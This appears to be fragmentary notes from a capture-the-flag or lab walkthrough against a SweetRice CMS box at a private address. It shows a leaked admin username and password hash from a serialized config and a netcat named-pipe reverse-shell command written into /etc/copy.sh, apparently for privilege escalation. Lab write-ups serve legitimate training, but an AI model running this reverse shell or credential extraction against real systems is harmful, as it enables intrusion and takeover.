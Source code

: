 http://10.10.169.224/content/as/
sweetrice content dashboard



\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"


echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.2.66 5554 >/tmp/f' >/etc/copy.sh